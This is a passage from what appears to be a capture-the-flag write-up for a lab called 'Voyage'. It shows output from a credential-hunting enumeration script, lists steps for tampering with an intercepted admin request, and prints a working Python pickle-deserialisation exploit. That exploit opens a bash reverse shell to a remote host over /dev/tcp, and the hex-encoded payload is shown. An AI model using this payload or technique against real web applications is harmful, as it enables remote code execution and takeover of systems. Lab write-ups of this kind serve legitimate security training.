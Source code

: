 ```bash
-rw------- 1 root root 0 Apr  4 02:03 /etc/.pwd.lock
-rwxr-xr-x 1 root root 0 Jun 25 18:01 /.dockerenv
...
[+] Finding 'pwd' or 'passw' variables (and interesting php db definitions) inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
/etc/nsswitch.conf:passwd:         files systemd
/etc/pam.d/common-password:password	[success=1 default=ignore]	pam_unix.so obscure sha512
/etc/security/namespace.init:                gid=$(echo "$passwd" | cut -f4 -d":")
/etc/security/namespace.init:        homedir=$(echo "$passwd" | cut -f6 -d":")
/etc/security/namespace.init:        passwd=$(getent passwd "$user")
/etc/ssl/openssl.cnf:challengePassword		= A challenge password
/etc/ssl/openssl.cnf:challengePassword_max		= 20
/etc/ssl/openssl.cnf:challengePassword_min		= 4
...
...nsswitch.conf:passwd:         files systemd
/etc/pam.d/common-password:password	[success=1 default=ignore]	pam_unix.so obscure sha512
/etc/security/namespace.init:                gid=$(echo "$passwd" | cut -f4 -d":")
/etc/security/namespace.init:        homedir=$(echo "$passwd" | cut -f6 -d":")
/etc/security/namespace.init:        passwd=$(getent passwd "$user")
/etc/ssl/openssl.cnf:challengePassword		= A challenge password
/etc/ssl/openssl.cnf:challengePassword_max		= 20
/etc/ssl/openssl.cnf:challengePassword_min
```

<p>

- logged in as admin in :5000<br>
- intercepted in Burp Suite<br>
- sent the Request to Repeater<br>
- customized the Request using the output of script.py<br>
- customized the Request adding some metadata fetching headers<br>
- set up a listener<br>
- Send</p>

<br>
<h2>Reverse Shell</h2>

```bash
:~/Voyage# cat script.py
import pickle
import os

class Malicious:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/xx.xxx.xx.xxx/6666 0>&1'",))

malicious_pickle = pickle.dumps(Malicious())

print("Malicious pickle in hex:", malicious_pickle.hex())
```

```bash
:~/Voyage# python3 script.py
Malicious pickle in hex: 80049555000000000000008c05706f736978948c0673797374656d9493948c3a2f62696e2f62617368202d63202762617368202d69203e26202f6465762f7463702f31302e3230312e38392e3230332f3636363620303e26312794859452942e
```
